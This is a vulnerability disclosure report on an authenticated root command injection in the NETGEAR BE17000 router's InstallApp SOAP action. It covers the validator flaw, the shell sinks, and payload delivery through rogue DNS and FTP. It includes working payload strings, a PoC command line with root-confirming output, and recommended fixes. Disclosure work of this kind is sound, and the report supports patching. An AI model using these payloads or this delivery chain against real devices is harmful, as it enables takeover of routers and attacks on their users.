

# NETGEAR BE17000: Authenticated OS Command Injection in SOAP `AppSystem:1#InstallApp` (`NewAppName`, Validator Bypass, 8 Sinks)

- **Report date**: 2026-10-06
- **Vendor**: NETGEAR

---

## Summary

NETGEAR BE17000 (RS600) routers running the latest released firmware validate the `NewAppName` argument of the SOAP action `AppSystem:1#InstallApp` with a **deny-list** character check that forgets the shell's most useful metacharacters: `|`, `&`, `>`, `<`, `(`, `)` and space all pass (only `; @ " $ ' \ `` and backtick are rejected). The name is then interpolated into no fewer than **eight** shell command templates executed via `popen()` (`/bin/sh -c`) during the app "installation" flow — including `"%s stop"`, `"rm -rf %s;mkdir %s;tar -zxf /tmp/%s -C %s"`, `"mkdir -p /storage/system/apps/%s/"`, `"%s setup"` and `"%s event dlna starting"`. The installation downloads its package through the router's own DNS client + FTP, so an attacker who steers the device's DNS (LAN-side DHCP/DNS spoofing, or control of the upstream path) can deliver the whole chain from the LAN and execute arbitrary OS commands as root with a valid admin session.

## Affected Products, Models and Versions

| Product | Hardware / Board | Firmware | Status |
|---|---|---|---|
| NETGEAR BE17000 (RS600) | Broadcom HND, all hardware revisions | `BE17000-V1.2.7.2.img` (build date 2026-07-06, latest release as of this report; SHA256 `f73eef832dcf2ece5ba15fa59b147894d644c27fccf80254e376e392c048328a`) | **Verified vulnerable** |

## Technical Details (Root Cause)

1. `AppSystem:1#InstallApp` resolves to `sub_E701C` in `/usr/sbin/net-cgi`. The argument is read with `sub_92FA0("NewAppName", xml)` (attacker controlled, ≤ 0xFF bytes) and passed to the centralized checker `sub_35550("apname", v7)` at `0x2FCDC`.
2. The apname validator is a deny-list: constant comparisons reject `; @ " $ ' \ `` and backtick (the `(c & 0xDF) == 0x40` test catches both `@` and `` ` ``), and nothing else. `| & > < ( ) :` and space are explicitly allowed.
3. Sink list in `sub_E701C` (all `popen` → `/bin/sh -c`), one of them at ASM level:

```
0xE7164  BL  sub_35550       ; the only validation
0xE7710  R2 = "%s stop"      ; R5 = the raw attacker value
0xE7724  BL  sub_84B4C       ; snprintf
0xE7738  BL  sub_85DF0       ; "sanitizer": converts \n\r to spaces only
0xE7744  BL  sub_85F9C       ; popen -> /bin/sh -c   <- sink
```

Other templates: `rm -rf %s;mkdir %s;tar -zxf /tmp/%s -C %s` (the template itself contains `;`), `rm -rf %s/version.txt`, `mv %s %s`, `mkdir -p /storage/system/apps/%s/`, `%s setup`, `%s event dlna starting`.
4. Delivery: the "package" is fetched by net-cgi's own DNS client (`sub_40678`, reads `/tmp/resolv.conf`) and FTP client. The FTP `LIST` response line is matched against the requested app name and its content is then used **unfiltered** as a local filename (`/tmp/<line>`) and inside the `tar` command line — a second-order injection surface on top of the first-order one.
5. Payload constraints discovered dynamically: the delivery channel is stricter than the apname validator — payload characters **space** and **`/`** both abort the FTP package-match step before any sink runs. Working payloads are space-free/slash-free snippets built from `| > < & ( )`, e.g. `x|touch>nc3_pwned|` (the backtick variant is rejected by the `(c&0xDF)==0x40` check, correcting the initial static hypothesis).

## Proof of Concept / Reproduction Steps

Prerequisites: a valid admin session (the exploit performs the stock admin login itself). The exploit embeds the rogue infrastructure: a DNS responder that answers every A query with the attacker's IP, and an FTP server whose LIST line carries the app name.

```bash
$ sudo python3 exploit_nc3_installapp_cmdi.py http://127.0.0.1:18082 -p password \
  --timestamp "$(date +%s)" \
  --check-fs /home/iotsec-zone/be17000_sso_work/www/nc3_pwned
[*] NETGEAR BE17000 V1.2.7.2 - NC-3 SOAP AppSystem InstallApp command injection (PoC 1.1)
[*] target      : http://127.0.0.1:18082
[*] app name    : x|id>nc3_pwned|
[*] step 1: admin login (apply.cgi, encode_twice password)...
[+] admin login OK (jwt_local session established)
[*] step 2: starting rogue DNS(:53)/FTP(:21) responders...
[*] rogue DNS on :53 -> every A query = 127.0.0.1
[*] rogue FTP on :21, LIST line: x|id>nc3_pwned|-X-rs600-V1.2.7.2
[*] step 3: POST SOAP AppSystem:1#InstallApp (NewAppName = x|id>nc3_pwned|)...
[*] InstallApp HTTP 200, ResponseCode = 0
[*] rogue DNS handled 4 query(ies), rogue FTP saw 1 LIST/RETR session(s)
[*] polling /home/iotsec-zone/be17000_sso_work/www/nc3_pwned for the command marker (up to 45s)...
[+] MARKER CONTENT:
uid=0(root) gid=0(root) groups=0(root)
[+] CONFIRMED: authenticated OS command injection via SOAP AppSystem:1#InstallApp
[+]          (8 popen sinks; command executed as root)
```

The original validation captured five sinks firing at execve level (`sh -c "rm -rf /tmp/x|touch>nc3_pwned|_tmp;mkdir …;tar -zxf …"`, `mkdir -p …`, `mv …`, `… event dlna starting`, `… setup` — 8 `execve("/bin/touch")` in total) with `installation_result=100` (`workdir/evidence/nc23_evidence/nc3_st2.log`).



**Expected vs. actual behavior**

| | |
|---|---|
| **Expected** | App names are identifiers validated by an allow-list; package download uses verified TLS endpoints; downloaded file names never reach a shell. |
| **Actual** | A deny-list that allows every shell pipe/redirect operator guards eight `/bin/sh -c` templates; the FTP listing content flows unfiltered into `/tmp/<line>` and the tar command line. ResponseCode 0 means the whole "successful install" flow ran. |

## Security Impact

- Root command execution with any valid admin session, weaponizable entirely from the LAN (rogue DNS + FTP): full device compromise, persistent implant installation, traffic manipulation (DNS/DHCP) against every LAN client.
- The second-order FTP-listing injection gives command execution even where the first-order name validation is tightened, as long as the download path stays shell-based.

## Recommended Fix

1. Replace the apname deny-list with a strict allow-list (`[A-Za-z0-9._-]`); validate before every use, not once.
2. Remove every shell template: use `execve` argv arrays for lifecycle actions and `fork`+`exec` for tar; never concatenate untrusted data into command lines.
3. Download packages over verified HTTPS from pinned hosts; treat the FTP listing as untrusted data — canonicalize file names, no shell involvement.
4. Add a regression test covering `|`, `&`, `>`, backtick and space payloads.

## Mitigation for End Users (until a fix ships)

None available from the GUI. Keep the admin password strong, do not install third-party apps, and block router DNS access to untrusted LAN resolvers where possible.

## Attachments

- `exploit_nc3_installapp_cmdi.py` — one-click PoC (admin login + embedded rogue DNS/FTP + trigger + marker verification; stdlib only).

## Researcher Contact & Credit

- **Name**: 【Lumina】
- **Contact**: 【1547800591@qq.com】
